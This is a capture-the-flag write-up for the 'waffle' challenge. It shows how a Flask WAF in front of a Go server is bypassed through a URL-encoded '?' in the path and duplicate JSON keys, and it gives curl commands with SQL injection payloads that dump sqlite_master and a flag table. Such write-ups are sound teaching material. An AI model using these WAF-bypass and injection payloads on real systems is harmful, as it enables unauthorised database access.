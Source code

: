 waffle
---

In this challenge we were presented with a Golang HTTP server behind the Flask firewall. 

The goland server had 2 interesting endpoints, and so did the WAF:

1. `/gettoken`: this endpoint validated that the `promocode` get-parameter equals toi string `FREEWAF`, and thw WAF checks the contrary.
   To bypass the WAF, one can notice that Flask urldecodes the path, so we make the request to `/gettoken%3f?promocode=FREEWAF`, and the whole string will be considered as path, 
   so the get-parameter check will not trigger. After that, Flask will make the request to `appHost+path`, where the `path` is already urlencoded, effectively 
   passing the promocode as get-parameter.
   
Final request for (1):

```shell
curl -v --path-as-is "http://waffle.challs.m0lecon.it/gettoken%3fcreditcard=123&promocode=FREEWAF"
```

2. `/search`: this endpoint searches the database for waffles matching some criteria. There's a clear sql injection in all fields,
   but the WAF checks that all parameters are numbers or alphanumeric strings. However, after experimenting with the locally-deployed copy
   of the task, one can notice that Flask json decoding takes the last key occurrence if there are multiple, whereas the Golang decoder 
   (some external one) takes the first. This allows us to pass sql injection in the `name` field. First, we enumerate the tables 
   (using the token acquired in the step 1):
   
```shell
curl --path-as-is -XPOST --cookie "token=LQuKU5ViVGk4fsytWt9C" --data "{\"name\": \"' or 1=1 union select 1, 1, 1, name from sqlite_master where type = 'table' -- \", \"name\": \"flag\"}" "http://waffle.challs.m0lecon.it/search"
```

Which gives us the `flag` table. Then we can select everything from it, getting the flag:

```shell
curl --path-as-is -XPOST --cookie "token=LQuKU5ViVGk4fsytWt9C" --data "{\"name\": \"' or 1=1 union select 1, 1, 1, * from flag -- \", \"name\": \"flag\"}" "http://waffle.challs.m0lecon.it/search"
```

Flag: `ptm{n3ver_ev3r_tru5t_4_pars3r!}`   
